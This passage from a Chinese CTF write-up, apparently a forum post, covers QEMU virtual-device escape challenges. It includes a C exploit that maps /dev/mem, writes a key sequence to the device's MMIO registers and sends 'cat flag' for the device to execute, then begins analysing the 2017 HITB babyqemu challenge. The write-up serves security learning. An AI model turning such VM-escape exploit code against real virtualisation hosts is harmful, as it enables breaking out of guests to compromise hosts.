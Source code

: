  

下好了断点，c 执行，然后运行 exp，便可以愉快的观察程序运行

 

![](https://bbs.pediy.com/upload/attach/202211/922338_3MTXMHDFV9SX7KZ.jpg)  
![](https://bbs.pediy.com/upload/attach/202211/922338_MZTWSCNPN58H6E4.jpg)

### 4. 利用

```
#include #include #include #include #include #include #include #include #include #include unsigned char* mmiobase;
//wwssadadBABA
void mmio_write(uint64_t addr,uint64_t val){
      *(uint64_t *)(mmiobase + addr) = val;
}
 
int main(){
 mmiobase = mmap(0,0x1000000,PROT_READ | PROT_WRITE, MAP_SHARED, open("/dev/mem",2),0xfb000000);
                                                   //str    idx
  mmio_write(0x000000,0);  //w   ,   0
  mmio_write(0x010000,0);     //w   ,   1
    mmio_write(0x120000,0);  //s   ,   2
  mmio_write(0x130000,0);  //s   ,   3
  mmio_write(0x240000,0);  //a   ,   4
  mmio_write(0x350000,0);  //d   ,   5
  mmio_write(0x260000,0);  //a   ,   6
  mmio_write(0x370000,0);  //d   ,   7
  mmio_write(0x580000,0);  //B   ,   8
  mmio_write(0x490000,0);  //A   ,   9
  mmio_write(0x5a0000,0);  //B   ,   a
  mmio_write(0x4b0000,0);  //A   ,   b
 
 
  char cmd[0x20] = "cat flag";
  mmio_write(0x600000,*(uint64_t *)(&cmd[0]));
  return *(int *)mmiobase;
} 
```

效果如图:

 

![](https://bbs.pediy.com/upload/attach/202211/922338_ZGEU3S59GV8QHPY.jpg)

4.2017HITB babyqemu
-------------------

### 1. 题目分析

直接扔 ida，有符号✌️，搜索一下只发现了 mmio_read/mmio_write，然后恢复一下结构体；
